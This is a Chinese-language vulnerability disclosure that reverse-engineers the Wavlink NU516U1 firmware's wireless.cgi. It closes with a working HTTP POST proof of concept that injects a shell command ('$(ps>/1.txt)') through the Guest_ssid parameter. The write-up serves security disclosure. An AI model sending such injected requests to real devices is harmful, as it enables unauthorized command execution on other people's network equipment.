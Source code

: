 ```yaml
---
title: wavlink-NU516-wireless
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/1 11:20:53 
---
```






## **提交者：林淦 罗熙**

## **提交者单位：广州大学**

## 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

## 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值

![](img/1.png)

将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数

![](img/2.png)

sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控

![](img/3.png)

随后Guest_ssid参数值被传入sub_407504函数内

![](img/4.png)

在其中拼接给v8变量，交给system函数执行，产生了命令注入

![](img/5.png)

此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

## POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```


